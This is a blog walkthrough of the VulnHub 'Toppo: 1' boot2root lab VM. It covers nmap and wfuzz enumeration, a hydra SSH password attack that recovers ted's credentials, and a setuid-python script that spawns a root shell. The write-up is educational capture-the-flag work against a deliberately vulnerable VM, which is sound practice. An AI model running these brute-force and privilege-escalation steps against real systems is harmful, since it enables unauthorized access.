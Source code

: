 ```yaml
---
layout: post
date: 2018-08-17 19:04:17 +0000
title: "Toppo: 1 Walkthrough"
subtitle: "Hakaishin Toppo?"
category: Walkthrough
tags: [VulnHub, Toppo]
comments: true
image:
  feature: toppo-1-walkthrough.jpg
  credit: Thomas-Suisse / Pixabay
  creditlink: https://pixabay.com/en/bomb-background-pattern-explode-1185726/
---
```


This post documents the complete walkthrough of Toppo: 1 a boot2root [VM][1] created by [Hadi Mene][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

There's no backstory for this VM. All we know is that it isn't hard to pwn and doesn't require advanced exploitation. The one "Toppo" I know is a character from Dragon Ball Super–God of Destruction candidate from Universe 11 :laughing:

### Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.130
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33198/udp  status
|_  100024  1          58751/tcp  status
58751/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds `22/tcp`, `80/tcp`, `111/tcp`, and `58751/tcp` open. As usual, I'll go for the web one first. Here's how it looks like.

![Clean Blog](/assets/images/posts/toppo-1-walkthrough/460c48a6.png)

### Directory/File Enumeration

I like `wfuzz` a lot. When it's combined with a quality wordlist like the ones in SecLists, you can uncover directories and files that will point you in the next direction.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://192.168.30.130/FUZZ
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.130/FUZZ
Total requests: 4593

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000011:  C=403     11 L	      32 W	    298 Ch	  ".htaccess"
000010:  C=403     11 L	      32 W	    293 Ch	  ".hta"
000012:  C=403     11 L	      32 W	    298 Ch	  ".htpasswd"
000190:  C=200     21 L	     172 W	   1093 Ch	  "LICENSE"
000437:  C=301      9 L	      28 W	    316 Ch	  "admin"
001232:  C=301      9 L	      28 W	    314 Ch	  "css"
002073:  C=301      9 L	      28 W	    314 Ch	  "img"
002094:  C=200    183 L	     465 W	   6437 Ch	  "index.html"
002250:  C=301      9 L	      28 W	    313 Ch	  "js"
002463:  C=301      9 L	      28 W	    315 Ch	  "mail"
002497:  C=301      9 L	      28 W	    317 Ch	  "manual"
003597:  C=403     11 L	      32 W	    302 Ch	  "server-status"
004261:  C=301      9 L	      28 W	    317 Ch	  "vendor"
```

Following the hint in `LICENSE`, it's not long before I found Blackrock Digital's GitHub [repository](https://github.com/BlackrockDigital/startbootstrap-clean-blog) for this BootStrap theme in Google.

![LICENSE](/assets/images/posts/toppo-1-walkthrough/727f2d5a.png)

Everything was identical to those listed in the repository except for `/admin`.

![/admin](/assets/images/posts/toppo-1-walkthrough/4bc414d0.png)

![/admin/notes.txt](/assets/images/posts/toppo-1-walkthrough/532aac6c.png)

### Hail Hydra

I also like `hydra` a lot. It's always my go-to weapon of choice for online password cracking and user validation. Let's give it a shot.

```
# hydra -L usernames.txt -p 12345ted123 -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.130)
[22][ssh] host: 192.168.30.130   login: ted   password: 12345ted123
```

What's in `usernames.txt`, you ask?

```
# cat usernames.txt
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
toppo
ted
```

I added `toppo` and `ted` for obvious reasons—`toppo` is the name of the VM while `ted` appears in `/admin/notes.txt`.

### Low-Privilege Shell

Now that I have the password of `ted`, let's log in to his SSH account.

![ted](/assets/images/posts/toppo-1-walkthrough/5603610a.png)

### Privilege Escalation

Again, using basic enumeration, I soon found the ticket to privilege escalation.

![python2.7](/assets/images/posts/toppo-1-walkthrough/7558c05c.png)

Since I have a `python` that's `setuid` to `root`, I can write a Python script like this.

<div class="filename"><span>makemeroot.py</span></div>

```python
import os

os.setuid(0)
os.setgid(0)
os.system("/bin/bash")
```

![root](/assets/images/posts/toppo-1-walkthrough/b08a64c9.png)

### Where's the Flag (WTF)

With `root`, getting the flag is trivial.

![Flag](/assets/images/posts/toppo-1-walkthrough/af5a0e51.png)

:dancer:

[1]: https://www.vulnhub.com/entry/toppo-1,245/
[2]: https://twitter.com/@h4d3sw0rm
[3]: https://www.vulnhub.com/

